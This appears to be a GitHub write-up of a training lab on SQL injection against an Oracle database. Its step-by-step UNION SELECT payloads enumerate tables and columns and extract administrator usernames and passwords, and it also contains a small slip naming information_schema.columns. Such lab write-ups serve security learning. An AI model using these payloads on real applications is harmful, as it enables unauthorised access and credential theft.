 <img width="500" height="351" alt="Screenshot_15" src="https://github.com/user-attachments/assets/0adae7c5-91eb-42b0-8319-5556a5ee550c" /> 
<img width="400" height="350" alt="Screenshot_14" src="https://github.com/user-attachments/assets/c4db386e-182e-48cc-924b-578bdc5a2e72" />
<img width="400" height="351" alt="Screenshot_13" src="https://github.com/user-attachments/assets/e8ed0cfb-d623-48c1-bc13-32e5b8d90bf3" />
<img width="300" height="200" alt="Screenshot_12" src="https://github.com/user-attachments/assets/ea06ffe9-a857-4bcf-b209-fbdc0a423c41" />
<img width="400" height="351" alt="Screenshot_11" src="https://github.com/user-attachments/assets/17029d53-6033-45a6-8787-a89356280924" />
<img width="500" height="351" alt="Screenshot_10" src="https://github.com/user-attachments/assets/0a928f80-0964-45b9-add2-a1a31335cae3" />

# Lab: SQL Injection Attack – Listing the Database Contents (Oracle)

## 📝 Lab Summary
This lab demonstrates how to exploit a **SQL injection vulnerability** against an **Oracle database**.  
The objective is to enumerate schema information using Oracle-specific system tables and retrieve the administrator’s username and password.

---

## 🔑 Key Concepts Used
- Oracle requires selecting from the **`dual`** table when testing with static values.
- Schema enumeration is performed via:
  - `all_tables` → lists all tables
  - `all_tab_columns` → lists all columns of a given table
- Extracting sensitive data directly from the target table.

---

## 🚀 Step-by-Step Exploitation

### 1. Determine the number of columns
Instead of `null` values (used in non-Oracle DBs), Oracle needs strings plus the `dual` table:
' UNION SELECT 'abc', 'def' FROM dual--
 If successful → confirms 2 columns in the original query.
### 2. Enumerate all available tables
Use all_tables to discover schema contents:
- ' UNION SELECT table_name, 'def' FROM all_tables--
Scan the output for a table of interest, usually named USERS.
### 3. Enumerate columns of the chosen table
Query information_schema.columns for the users table:
' UNION SELECT column_name, 'def' 
  FROM all_tab_columns 
  WHERE table_name='USERS'--
##### Typical results:
- username
- password
### 4. Extract usernames and passwords
' UNION SELECT username, password FROM users--
Among the results, locate the administrator credentials.
### 5. Use credentials to log in
Take the extracted administrator username and password, then authenticate through the application’s login page.




